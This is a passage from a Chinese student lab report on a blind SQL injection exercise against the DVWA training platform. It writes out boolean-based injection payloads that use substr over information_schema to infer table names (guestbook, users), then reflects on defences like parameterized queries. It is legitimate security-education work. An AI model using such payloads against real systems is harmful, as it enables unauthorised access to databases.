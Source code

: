 #### 6.成功输出，说明第一张表第一个字为g

![image-20250528201135680](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528201135680.png)

#### 7.输入1' and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='u' #

#### 8.成功输出，说明第一张表第二个字为u

![image-20250528201209295](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528201209295.png)

#### 9.输入1' and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,9)='guestbook' #

![image-20250528201503534](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528201503534.png)

#### 10.成功输出，说明第一张表叫guestbook

![image-20250528201438284](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528201438284.png)

#### 11.输入1' and substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,5)='users' #

![image-20250528201601594](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528201601594.png)

#### 12.成功输出，说明第二张表叫users

![image-20250528201617710](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528201617710.png)

#### 13.综上所述，数据库有两张表，分别叫guestbook和users

## 心得体会：

通过参与本次软件安全实验，我对SQL注入攻击的原理和防御策略有了更为深刻的认识。在DVWA平台上进行的SQL盲注实验，让我亲身体验了攻击者如何巧妙地利用SQL注入漏洞来推测数据库的结构和敏感信息。实验中，我通过手工构造SQL语句，运用布尔逻辑等技术手段，逐步揭示了数据库名、表名和字段信息，这个过程极大地锻炼了我的逻辑思维和问题解决能力。

实验不仅让我体会到了攻击者获取信息的巧妙手段，也让我深刻认识到Web应用安全防护的重要性。我学到了如何通过输入验证、参数化查询等安全措施来加固Web应用，防止SQL注入攻击，这些知识对于我有重要的意义。
